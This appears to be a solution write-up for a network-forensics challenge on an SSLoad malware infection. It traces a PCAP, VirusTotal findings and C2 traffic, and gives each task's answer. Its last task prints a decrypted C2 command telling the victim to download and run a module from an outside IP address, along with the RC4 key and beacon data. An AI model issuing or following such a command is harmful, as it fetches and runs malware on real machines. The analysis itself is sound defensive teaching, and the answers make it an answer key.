

Interceptor

A recent anomaly has been detected in our network traffic, suggesting a potential breach.
Our team suspects that an unauthorized entity has infiltrated our systems and accessed confidential company data.
Your mission is to unravel this mystery, understand the breach, and determine the extent of the compromised data.
Task 1
What IP address did the original suspicious traffic come from?
The only file within the challenge archive is a PCAP file. I'll load it into Wireshark for analysis.

After going through 29 streams of encrypted packets, I can see the IP address of 10.4.17.101 successfully retrieving a signing certificate. With this in their hand they could sign malicious software to bypass certain(not all) defences.
# req
GET /cacert/codesigningrootr45.crt HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
Host: secure.globalsign.com
HTTP/1.1 200 OK
Date: Wed, 17 Apr 2024 19:37:42 GMT
Content-Type: application/x-x509-ca-cert
Content-Length: 1398
Connection: keep-alive
Last-Modified: Mon, 15 Aug 2022 11:54:13 GMT
ETag: "62fa33e5-576"
CF-Cache-Status: HIT
Age: 65909
Expires: Sat, 18 May 2024 19:37:42 GMT
Cache-Control: public, max-age=2678400
Accept-Ranges: bytes
Server: cloudflare
CF-RAY: 875edf0b4b1f6bba-DFW
0..r0..Z.......vS..uFH....JH:N.0
. *.H..
.....0S1.0 ..U....BE1.0...U.
..GlobalSign nv-sa1)0'..U... GlobalSign Code Signing Root R450..
200318000000Z.
450318000000Z0S1.0 ..U....BE1.0...U.
..GlobalSign nv-sa1)0'..U... GlobalSign Code Signing Root R450.."0
. *.H..
..........0..
......-.0.z...=.r.:K..a....g.7..~.......C..E..cW]....%..h.K..K.J....j..a'..D...?"..O.....(..].Y........,.3$.P:A....{.M..X8.........,..C.. t...{.3
.Yk....Z.{..U......L.....u.o.a.tD....t..h.l&>.......0....|U..p\$x %.gg...N4.kp..8............;.gC....t./.... 7=gl.E\.a.A.....w
FGs.......+....X..W....Z..%.....r=.....;D.&.........E.........Bng~B.qb...`.d....!N+.mh....tsg1z....yn|..~FoM...+.."D...7..aW...$..1s..5WG~.:E.-.Q.....7.e...k.w....?.0.o1..@........PvtY..m.2...~....u..J.,....+B...j6..L.................:..c...$d.......B0@0...U...........0...U.......0....0...U.........F.
.x9...C.VP...;0
. *.H..
..........^+.t.4D_vH(@....n.....%.{.. .=..v...0 ..`.......x.+.2..$.RR.......9n....CA}..[.]...&...tr&....=;jR.< ./.{.3.E......`.v....x..j...F.$......Y./]..].\..rS.AN..x.%J...bCa..7.....:...Y~0G.+k.!P3_.g...g.<'....C.s.. ..a..f...9m...#7...N.k?......>B&.....G..R~.u....b.mO..!.&>.m.b0...(.n...Lrf...*.U.`g.BV\"Q...N9.M...x.T;n..o....#s....d....$.......@.. 3........t;i.g.......oq.W...Z.z@j....-/...$.C....+..qo...u.:^..../.....T.~~.V.....YR.A.m[......v.@.QJp..3c#w?.'.Y....4.J.?.....gsE.x..).'........9I.M...e...wV...X.:....

Task 2
The attacker downloaded a suspicious file. What is the HTTP method used to retrieve the properties of this file?

A few streams later, the same machine uses a PROPFIND request aimed at a suspicious .msi file. This is a WebDAV request used to retrieve properties from a web resource identified by a Uniform Resource Identifier (URI).
The response is an XML list of properties like timestamps, file size, and even an HTTP status code response.

Task 3
It appears that this file is malware. What is its filename?
I deemed this .msi file suspicious due to a few things. First off, it is quite unusual to see a file like this in a WebDAV share. Second, this extension stands for Microsoft Installer. These files are used to package installation information, including files to be installed and their intended destinations. They can be used for malicious purposes.
I'll send the file to VirusTotal to confirm whether it is malware. It can be retrieved from the PCAP by going to File -> Export Objects -> HTTP

Confirmed. These files are designed for silent installations, meaning that this file could potentially execute malicious code without further user interaction. I'll be on the lookout for any use of msiexec, as that is how these files can be executed from CLI.

Task 4
What is the SSDEEP hash of the malware as reported by VirusTotal?
An SSDEEP hash is a type of fuzzy hash used to identify similarities between files or data, even when they are not identical. It is designed to detect partial matches or similarities, unlike MD5 or SHA-256, which detect 1-1 identical matches.
https://ssdeep-project.github.io/ssdeep/index.html
VirusTotal displays this hash and more information under its details tab.


Task 5
According to the NeikiAnalytics community comment on VirusTotal, to which family does the malware belong?
After going to the community tab, I will search for this user's comment.

They detect the malware's family as ssload

Task 6
What is the creation time of the malware?
This and a few other timestamps related to the file are stored under the details tab, in the history section.

The creation time is a date taken from the file's metadata, pointing to the time of this file's creation. A malicious actor could modify it however they like, and in some circumstances, the time difference between the creation time and the first seen in the wild time might be suspicious.

Task 7
What is the domain name that the malware is trying to connect with?
In the behavior tab, under the network communication section, there is a list of HTTP requests, DNS resolutions, and IPs the malware tried to reach. There is a single domain of api.ipify.org that it was trying to resolve.

Within Wireshark, skipping forward to stream 44 reveals traffic going between the victim machine and the C2 domain, its IP being 85.239.53.219


Task 8
What is the IP address that the attacker has consistently used for communication?
This question has been answered while solving task 7. The answer is 85.239.53.219

Task 9
Which file, included in the original package, is extracted and utilized by the malware during execution?
There are three ways I could get this information:
-
Use VirusTotal's
behaviortab to infer which files were dropped by the malware (safest); -
Use tools like LessMSI to investigate the MSI file itself for hidden files (Risky);
-
Perform dynamic analysis within an enclosed VM to track the malware's actions and any tasks it initiates (Very Risky, and I do not know how the malware might behave under sterile conditions(no internet)).
I'll go forward with 1, as it'll allow me to avoid interacting with the malware whatsoever.

Aside from a bunch of regular MSI-process related files, the malware is also dropping and opening a DLL under C:\Users\<USER>\AppData\Local\sharepoint\forcedelctl.dll. While forcedelctl.dll is known as a legit DLL, legitimate MSIs do not normally install system DLLs into per-user AppData directories.

Task 10
What program is used to execute the malware?
The main program used for executing .msi files is msiexec. For standard users, double-clicking an .msi file will trigger msiexec and initiate the installation process. Additionally, msiexec is a LOLBIN(Living-off-the-land binary), meaning that it is a standard piece of the system and doesn't require bringing in additional software.
Sophisticated malware can avoid using msiexec entirely by calling the MsiInstallProduct function from the msi.dll library.
Adding to that, attackers can embed special instructions, Custom Actions, within an msi file, leading to potentially unwanted actions taken without the user's knowledge after the file's execution.

Task 11
What is the hostname of the compromised machine?
While looking at the exchange between the victim machine and the C2 server, I could see a JSON object being sent through.
{"version":"v1.4.0","ip":"173.66.46.97","domain":"WORKGROUP","hostname":"DESKTOP-FWQ3U4C","arch":"x86","os_version":"Windows 6.3.9600","cur_user":"User","owner":"Nevada"}
This is most definitely an identification string sent to a C2 server. The machine will then be registered and await tasks from the attacker. The data contained within this JSON object contains information about the victim, like their IP address, computer name, architecture, and more.
The victim's hostname is DESKTOP-FWQ3U4C

Task 12
What is the key that was used in the attack?
In response to the earlier request with machine data, the C2 server responds with a key and an ID.

{"key": "WkZPxBoH6CA3Ok4iI", "id": "b98c911c-e29c-396e-2990-a7441af79546"}
With this ID, the C2 server will know which machine is which. It is most likely tied to the machine data I've seen earlier. Since the key was sent together with the ID in a single object, it is safe to assume that each registered ID has its own key.

Task 13
What is the os_version of the compromised machine?
The answer to this question lies in the JSON object from task 11. It is Windows 6.3.9600

Task 14
What is the owner name of the compromised machine?
Same as the previous question, this value has been revealed in the JSON object from task 11. The answer is Nevada

Task 15
After decrypting the communication from the malware, what command is revealed to be sent to the C2 server?
Afterwards, the C2 server responds with an ID and an encoded job value. The two equal signs at the end point towards base64 being used.

However, decoding it returns garbage only. I'll research online about the ssload malware family.

https://intezer.com/blog/ssload-technical-malware-analysis/
This is a really nice article that explains the infection chain, each component of the malware, and its purpose in detail. With it, I found out that the malware uses RC4 to encrypt its job structures. Since I have a key already, I'll add an RC4 recipe to the first decoding attempt, using the plaintext key as a UTF-8 passphrase.

Answer: {"command": "exe", "args": ["http://85.239.53.219/download?id=Nevada&module=2&filename=None"]}

Solved!